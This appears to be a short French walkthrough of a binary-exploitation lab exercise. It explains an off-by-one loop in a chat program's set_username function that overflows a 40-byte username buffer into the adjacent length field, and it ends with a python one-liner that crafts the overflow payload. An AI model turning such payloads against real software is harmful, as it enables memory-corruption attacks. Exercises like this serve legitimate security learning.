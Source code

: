 Ce binaire s'apparente a un systeme de chat. 
En premier, il demande un username, puis, un message a envoyer. 
Le probleme se trouve dans la fonction "set_username". Dans la structure "save" un buffer
de 40 bytes est prevu pour stocker le username. Or, dans le fonction set_username, une sorte
de strcpy manuel est effectue :
    
      i = 0;
      while (i <= 40 && buf[i] != '\0')
      {
        save->username[i] = buf[i];
        i++;
      }
      
Le probleme est qu'il va y avoir 41 iterations et non 40 ! Nous allons donc pouvoir deborder
sur la variable se trouvant apres username[40] dans la structure save. En l'occurence, "length". 

python -c "print('A'*40 + '\xce' + '\n' + 'A'*200 + '\x8c' + 'HUUUUUU')" > /tmp/x 

